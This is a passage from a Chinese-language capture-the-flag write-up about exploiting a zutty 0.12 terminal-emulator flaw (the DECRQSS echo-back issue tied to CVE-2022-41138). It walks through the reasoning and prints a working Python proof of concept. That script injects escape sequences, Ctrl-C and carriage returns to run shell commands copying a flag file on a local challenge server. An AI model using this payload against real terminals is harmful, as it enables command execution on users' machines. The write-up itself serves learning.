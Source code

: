 没有思路了，想着去问 ChatGPT，结果一发入魂，还是这么简单的地方。~~亏我本职工作还是 IT，我紫菜~~

另外，搭建本地测试环境时，搞清程序结构、意识到 Rust 程序要手动编译和复制花了几分钟，找到 Rust 程序是怎么编译的又花了几分钟，然后发现我电脑上居然有已经配置好的 Rust 工具链😅我都忘了上次编译 Rust 程序是什么时候了。

### 希望的终端模拟器，连接着我们的羁绊
#### 最终操作
1. 提示非常明显，跟终端模拟器有关。去找到题目中使用的 zutty 0.12 的代码，分析从 0.12 开始到现在的[所有提交](https://git.hq.sig7.se/zutty.git/shortlog)，很容易找到 [Do not echo invalid input on DECRQSS (Request Status String)](https://git.hq.sig7.se/zutty.git/commit/bde7458c60a7bafe08bbeaafbf861eb865edfa38) 这个提交，里面提及了 invoke an arbitrary command 和 CVE-2008-2383，这很可能就是我们要找的东西
2. 搜索 CVE-2008-2383，没找到啥 PoC（其实 Debian bug 就有，太急了没看到），但是搜索“CVE-2008-2383 zutty”发现 zutty 的这个问题被分配了一个新的 CVE：[CVE-2022-41138](https://bugs.gentoo.org/868495). 这里面也有一个 PoC text file
3. 因为是 echo back input，所以容易想到要做的事情是先把要做的指令打出来，然后按 Ctrl-C 中止 server，再按下回车执行刚才的指令。而指令可以用 `cp /flag2 /dev/shm/executable` 然后在自己的脚本中 cat 出来即可，覆盖 /dev/shm/executable 的方式是为了保证自己的脚本能够读取此路径
4. 因为 Ctrl-C 有时候会打印出 `^C`，所以我猜它是一个 ASCII 控制字符，类似于 `\n`. 用这个类比去问 ChatGPT，它说是 `\x03` （End of Text）
5. 因为 server 会从 `\n` 切断输出，因此需要找一个其他的能让 shell 视作回车的东西，同时能被 server 输出来。继续问 ChatGPT，发现是 `\r` （好有道理，我怎么没想到呢……）
6. 以上思路中所有的做法都可以实现了，那么接下来就是急急急环节，反复调试 PoC 使其达成预期效果。最终脚本如下：
```python
#!/usr/bin/python3

import socket
import time
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect(("127.0.0.1", 8000))

buf2 = bytearray([
	0x1B, 0x50, 0x24, 0x71, 0x0D, 0x03, 0x0d, 0x63, 0x70, 0x20, 0x2F, 0x66, 0x6C,
	0x61, 0x67, 0x32, 0x20, 0x2F, 0x66, 0x6C, 0x61, 0x67, 0x31, ]) + bytearray(b"; cp /flag2 /tmp/flag2; cp /flag2 /dev/shm/executable") + bytearray([0x0D,  0x0d, 0x1B,
	0x5C, 0x0d
])
# 以下可能不准确：
# 0x1B, 0x50, 0x24, 0x71 DECRQSS 指令开头
# 0x0D 回车，习惯性操作
# 0x03 Ctrl-C，退出 server
# 0x0d 回车，习惯性操作
# 后面是这条指令：
# cp /flag2 /flag1; cp /flag2 /tmp/flag2; cp /flag2 /dev/shm/executable
# 0x0D, 0x0d 回车，习惯性操作
# 0x1B, 0x5C, 0x0d DECRQSS 指令结尾

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect(("127.0.0.1", 8000))
s.send(b"GET /" + buf2 + b" HTTP/1.1\r\n\r\n")
print(s.recv(1024))
s.close()

time.sleep(8)
os.system("cat /dev/shm/executable") # 此时自己已被替换为 flag2
```
#### 解题思路
因为社畜没时间解题，很急，所以 PoC 里面到底哪部分是要执行的指令、哪部分是 DECRQSS 本身 压根没看，直接把可见文本部分全改成 `cp /flag2 /flag1` 试图通过 flag1 的逻辑拿到结果。然后喜闻乐见地失败了：
